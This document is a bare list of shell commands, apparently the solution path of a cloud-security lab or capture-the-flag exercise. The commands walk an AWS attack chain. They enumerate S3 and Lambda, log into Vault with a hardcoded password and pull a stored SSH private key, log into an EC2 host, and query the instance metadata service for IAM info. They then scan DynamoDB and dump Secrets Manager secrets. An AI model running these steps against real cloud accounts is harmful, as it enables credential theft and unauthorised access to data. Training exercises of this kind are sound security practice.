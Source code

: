```
export AWS_ACCESS_KEY_ID=[low-priv-user]
export AWS_SECRET_ACCESS_KEY=[low-priv-user]
```

`aws s3 ls`

`aws s3 ls s3://[bucket]`

`aws s3 cp s3://[bucket]/nates_web_app_url.txt .`

`cat nates_web_app_url.txt`

`aws lambda list-functions`

`export VAULT_ADDR='http://[ip]:8200'`

`vault login TorysTotallyTubular456`

`vault kv get secret/id_rsa`

`echo "[id_rsa]" >> id_rsa`

`chmod 400 id_rsa`

`ssh -i id_rsa ec2-user@[ip]`

`TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")`

`curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/info`

`aws dynamodb list-tables`

`aws dynamodb scan --table-name [table]`

```
export AWS_ACCESS_KEY_ID=[secrets-manager-user]
export AWS_SECRET_ACCESS_KEY=[secrets-manager-user]
```

`aws secretsmanager list-secrets`

`aws secretsmanager get-secret-value --secret-id [secret]`
